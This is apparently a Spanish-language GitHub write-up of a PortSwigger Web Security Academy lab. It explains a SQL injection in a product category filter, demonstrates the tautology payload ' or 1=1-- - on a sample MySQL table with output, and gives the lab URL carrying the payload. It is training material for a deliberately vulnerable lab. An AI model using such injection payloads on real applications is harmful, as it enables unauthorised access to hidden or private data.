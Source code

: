 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

- [Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Descripción:

This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

````sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
````

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

---

### Explicación:

### Query original:

El payload se inyecta en donde se pone el nombre del artículo o sección:

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/0b35f1ca-3c73-4837-a0f8-b5be87e084bf)

### Ejemplo con lab:

En realidad el query está diseñado para solo arrojar un resultado específico, por ejemplo:

````sql
# Ejemplo Original: 
select id,username from users where subscription = '1' and id = 5;
````
````py
# Arroja solo un resultado
   ## subscription = 1
   ## id = 5

+----+----------+
| id | username |
+----+----------+
|  5 | Ff0ur    |
+----+----------+
````

### Resultado final

- Con el payload `' or 1 = 1-- -` o `' or 1 = 1-- -'` o `' or 1 = 1'-- -` _(o alguna de sus variantes de comentarios)_ es como "romperé" el query:
- Es decir, con este payload le estoy pidiendo en la query que regrese el `id=5` (osea solo `Ff0ur`) o todo donde sea `1=1` (osea `true`)... osea todo!!! porque todo es true!!!!!! muahaha!! ;)

````sql
# Ejemplo Final: (ya con SQLi)
select id,username from users where subscription = '1' or 1 = 1;-- - and id = 5 (aqui incluso puede ir otro query original que elimino, ya que es un comentario!!! :P);
````
````py
# Arroja todos los usernames y ids, sin condicionales!!
+----+----------+
| id | username |
+----+----------+
|  1 | Fz3r0    |
|  2 | F0n3     |
|  3 | Ftw0     |
|  4 | Fthr33   |
|  5 | Ff0ur    |
|  6 | Ff1v3    |
+----+----------+
````

- OJO! en consola de `mysql` se deben poner los `;`, pero en web no.

## Solución:

1. Importante ir a un directorio donde sea vulnerable _(en este caso son las secciones)_

2. Query que usé

````sql
'or 1=1-- -
````
````http
https://0a83007b03adf85d811702c2004f0064.web-security-academy.net/filter?category=Lifestyle'or 1=1-- -
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/2d654adb-8e7f-41eb-b8fc-84c9935c3e83)




